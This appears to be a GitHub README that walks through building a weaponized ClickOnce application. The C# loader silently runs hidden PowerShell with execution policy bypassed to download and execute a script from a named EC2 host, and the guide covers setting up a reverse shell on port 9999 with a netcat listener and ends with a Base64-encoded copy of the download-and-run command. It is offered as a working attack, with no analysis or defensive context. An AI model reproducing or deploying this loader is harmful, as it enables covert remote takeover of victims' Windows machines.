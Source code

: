 ## 1. Create lscript.application

1. Go to Visual Studio Community edition to create the loader.
2. Create a C# Console application for Windows
3. In lscript.cs, write the following code ->

```
using System.Diagnostics;

static class Program {
    [System.STAThread]
    static void Main() {
        string encoded = "<Base64_Download_Command>";
        string psArgs = $"-NoProfile -WindowStyle Hidden -ExecutionPolicy Bypass -EncodedCommand {encoded}";
        ProcessStartInfo psi = new ProcessStartInfo("powershell.exe", psArgs) {
            CreateNoWindow = true,
            UseShellExecute = false
        };
        Process.Start(psi);
    }
}
```

4. Change the Uri to the EC2 instance with the **perfect.ps1** script. Run the below command in Mac/Linux,

```
echo "Invoke-WebRequest -Uri 'http://ec2-3-253-172-6.eu-west-1.compute.amazonaws.com:80/perfect.ps1' -OutFile 'perfect.ps1'; powershell -ExecutionPolicy Bypass -File 'perfect.ps1'" | iconv -t UTF-16LE | base64 -w 0
```
5. Replace the above Base64 output to <Base64_Download_Command> on the lscript.cs file.
6. You have to host the perfect.ps1, go to https://www.revshells.com, change the reverse shell IP to the public IP and port as 9999.
7. Create a Powershell base64 payload, copy and save it in the EC2 instance.
8. Open port 9999 from the security group for the public IP.

## 2. Publishing the exploit

1. Go to Visual Studio on the Windows machine.
2. Right click, choose **Properties**, then **Security**, Enable **ClickOnce Security Settings, This is a full trust application**.
3. This application is available offline and startable from Start Menu, click **Publish**.

## 3. Exploitation

1. Run sudo **python -m http.server 9999**
2. Go to your EC2 Instance, make sure there is an inbound rule entry in the security groups for port 9999 for only the public IP of the target device that will be used.
3. Start the listener with ```nc -lnvp 9999```
4. Execute the _lscript.application_ file on the target device.
5. Check the listener.


SQBuAHYAbwBrAGUALQBXAGUAYgBSAGUAcQB1AGUAcwB0ACAALQBVAHIAaQAgACcAaAB0AHQAcAA6AC8ALwBlAGMAMgAtADMALQAyADUAMwAtADIANAA1AC0AMQAyADAALgBlAHUALQB3AGUAcwB0AC0AMQAuAGMAbwBtAHAAdQB0AGUALgBhAG0AYQB6AG8AbgBhAHcAcwAuAGMAbwBtADoAOAAwAC8AcABlAHIAZgBlAGMAdAAuAHAAcwAxACcAIAAtAE8AdQB0AEYAaQBsAGUAIAAnAHAAZQByAGYAZQBjAHQALgBwAHMAMQAnADsAIABwAG8AdwBlAHIAcwBoAGUAbABsACAALQBFAHgAZQBjAHUAdABpAG8AbgBQAG8AbABpAGMAeQAgAEIAeQBwAGEAcwBzACAALQBGAGkAbABlACAAJwBwAGUAcgBmAGUAYwB0AC4AcABzADEAJwAKAA
